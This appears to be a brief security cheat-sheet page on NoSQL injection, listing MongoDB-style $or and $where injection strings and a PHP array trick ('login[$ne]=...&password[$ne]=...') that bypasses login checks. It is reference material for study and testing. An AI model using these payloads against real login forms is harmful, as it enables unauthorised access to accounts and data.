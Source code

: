 ```yaml
---
layout: page
title:  "NoSQL injections"
permalink: "nosql-injections.html"
tags: [security, injections, web]
summary: ""
---
```


## NoSQL OR injections
* `login=admin',$or:[{},{'a'='a&pass='}]`
* `find( {'$where' : 'function() { return artist == "Weezer"; }'} )`

## PHP array injections
* PHP associative arrays: `$collection->find(array('login' => 'test'))` equivalent to `find({'login': 'test'})`
* Automatic array creation: if `page.php?param[foo]=bar` then `param == array('foo' => 'bar')`
* If `db->logins->find(array(“username”=>$_POST[“username”],
“password”=>$_POST[“password”]));`, then `login[$ne]=test&password[$ne]=test` transformed to `array(“username” => array(“$ne” => 1), “password” =>
array(“$ne” => 1));` equivalent to `{ username: { $ne: 1 }, password: { $ne: 1 } }`


## Resources and references
* [NoSQL cheatsheet](nosql.html)
